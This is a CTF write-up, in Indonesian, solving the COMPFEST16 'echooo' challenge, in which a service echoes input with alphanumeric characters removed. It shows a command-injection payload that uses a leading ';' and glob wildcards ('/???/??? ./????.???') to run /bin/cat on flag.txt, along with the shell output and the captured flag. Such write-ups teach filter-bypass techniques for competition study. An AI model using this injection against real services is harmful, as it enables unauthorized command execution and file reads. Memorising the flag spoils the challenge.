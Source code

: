 # [500 pts] echooo
### Category: Miscellaneous

**Deskripsi:**
> Program ini akan melakukan echo pada setiap input yang kamu berikan, kecuali karakter alphanumeric. Flag in flag.txt  
>    
> Author: Zanark    
>     
> nc challenges.ctf.compfest.id 20014  

### Solusi:

Sesuai deskripsi challenge, diberikan shell yang akan melakukan echo pada command yang dimasukkan. Karakter alphanumeric akan dihilangkan dari command yang ditulis, sehingga user hanya bisa menggunakan simbol tertentu.

Maka, ide yang dapat kita gunakan yaitu dengan menggunakan regex untuk memanggil command pada directory /bin/.

Karakter yang mungkin digunakan yaitu '?' dan '*', karena '?' dapat digunakan untuk mencocokkan satu karakter dan '\*' dapat digunakan untuk mencocokkan satu atau lebih karakter.

Sehingga kita dapat melihat isi /bin/ dengan command '/???/*'

```shell
Gimme your input: /???/*
Your input: /???/*
/bin/bash /bin/bunzip2 /bin/bzcat /bin/bzcmp /bin/bzdiff /bin/bzegrep /bin/bzexe /bin/bzfgrep /bin/bzgrep /bin/bzip2 /bin/bzip2recover /bin/bzless /bin/bzmore /bin/cat /bin/chgrp /bin/chmod /bin/chown /bin/cp /bin/dash
/bin/date /bin/dd /bin/df /bin/dir /bin/dmesg /bin/dnsdomainname /bin/domainname /bin/echo /bin/egrep /bin/false /bin/fgrep /bin/findmnt /bin/grep /bin/gunzip /bin/gzexe /bin/gzip /bin/hostname /bin/kill /bin/ln /bin/login
/bin/ls /bin/lsblk /bin/mkdir /bin/mknod /bin/mktemp /bin/more /bin/mount /bin/mountpoint /bin/mv /bin/nisdomainname /bin/pidof /bin/ps /bin/pwd /bin/rbash /bin/readlink /bin/rm /bin/rmdir /bin/run-parts /bin/sed /bin/sh /bin/sh.distrib /bin/sleep
/bin/stty /bin/su /bin/sync /bin/tar /bin/tempfile /bin/touch /bin/true /bin/umount /bin/uname /bin/uncompress /bin/vdir /bin/wdctl /bin/which /bin/ypdomainname /bin/zcat /bin/zcmp /bin/zdiff /bin/zegrep /bin/zfgrep /bin/zforce /bin/zgrep /bin/zless
/bin/zmore /bin/znew /dev/core /dev/fd /dev/full /dev/mqueue /dev/null /dev/ptmx /dev/pts /dev/random /dev/shm /dev/stderr /dev/stdin /dev/stdout /dev/tty /dev/urandom /dev/zero /etc/adduser.conf /etc/alternatives /etc/apt /etc/bash.bashrc /etc/bindresvport.blacklist
/etc/cloud /etc/cron.daily /etc/debconf.conf /etc/debian_version /etc/default /etc/deluser.conf /etc/dpkg /etc/environment /etc/fstab /etc/gai.conf /etc/group /etc/gshadow /etc/host.conf /etc/hostname /etc/hosts /etc/hosts.allow /etc/hosts.deny /etc/init.d /etc/inputrc
/etc/issue /etc/issue.net /etc/kernel /etc/ld.so.cache /etc/ld.so.conf /etc/ld.so.conf.d /etc/legal /etc/libaudit.conf /etc/login.defs /etc/logrotate.d /etc/lsb-release /etc/machine-id /etc/magic /etc/magic.mime /etc/mailcap /etc/mailcap.order /etc/mime.types /etc/mke2fs.conf
/etc/mtab /etc/networks /etc/nsswitch.conf /etc/opt /etc/os-release /etc/pam.conf /etc/pam.d /etc/passwd /etc/profile /etc/profile.d /etc/python3 /etc/python3.6 /etc/rc0.d /etc/rc1.d /etc/rc2.d /etc/rc3.d /etc/rc4.d /etc/rc5.d /etc/rc6.d /etc/rcS.d /etc/resolv.conf /etc/rmt /etc/securetty
/etc/security /etc/selinux /etc/shadow /etc/shells /etc/skel /etc/subgid /etc/subuid /etc/sysctl.conf /etc/sysctl.d /etc/systemd /etc/terminfo /etc/update-motd.d /lib/init /lib/lsb /lib/systemd /lib/terminfo /lib/udev /lib/x86_64-linux-gnu /run/lock /run/mount /run/systemd /run/utmp /sys/block
/sys/bus /sys/class /sys/dev /sys/devices /sys/firmware /sys/fs /sys/hypervisor /sys/kernel /sys/module /sys/power /usr/bin /usr/games /usr/include /usr/lib /usr/local /usr/sbin /usr/share /usr/src /var/backups /var/cache /var/lib /var/local /var/lock /var/log /var/mail /var/opt /var/run /var/spool /var/tmp
```

Kemudian jika kita lihat file pada directory saat ini dengan menggunakan command './*' : 
```shell
Gimme your input: ./*
Your input: ./*
./flag.txt ./prob.py
```

Disini langsung terlihat file flag.txt yang berisi flag. Salah satu cara yang mungkin dilakukan untuk membuka file adalah dengan command '/bin/cat ./flag.txt'.

Jika kita mencoba command '/???/???'
```shell
Gimme your input: /???/???
Your input: /???/???
/bin/cat /bin/dir /bin/pwd /bin/sed /bin/tar /dev/pts /dev/shm /dev/tty /etc/apt /etc/opt /etc/rmt /lib/lsb /sys/bus /sys/dev /usr/bin /usr/lib /usr/src /var/lib
/var/log /var/opt /var/run /var/tmp
```

Terlihat bahwa /bin/cat adalah file pertama yang ter-output, karena file pertama yang ter-output dapat dijadikan command maka /bin/cat dapat kita gunakan untuk membuka file flag.

Command yang bisa digunakan untuk melakukan hal itu adalah:
```shell
Gimme your input: /???/??? ./????.???
Your input: /???/??? ./????.???
/bin/cat /bin/dir /bin/pwd /bin/sed /bin/tar /dev/pts /dev/shm /dev/tty /etc/apt /etc/opt /etc/rmt /lib/lsb /sys/bus /sys/dev /usr/bin /usr/lib /usr/src /var/lib
/var/log /var/opt /var/run /var/tmp ./flag.txt
```

Dengan command tersebut, /bin/cat akan membaca seluruh file mulai dari /bin/dir, /bin/pwd, ... , ./flag.txt

Kita tinggal escape dari echo yang dilakukan shell dengan menggunakan karakter ';' diawal, sehingga command yang akan digunakan yaitu:
```shell
Gimme your input: ; /???/??? ./????.???
```

Memberikan command tersebut pada shell challenge akan setara dengan meng-execute command:
```shell
echo ; /???/??? ./????.???
```

Sehingga akan didapatkan flag pada akhir output /bin/cat.

**Note:** jika flag tidak muncul artinya output ter-truncate oleh netcat. Jika terjadi maka lakukan challenge melalui pwntools.

> Flag: **COMPFEST16{3ch0ing_4r0uNd_w1th_sYmb0ls_3bc526845e}**
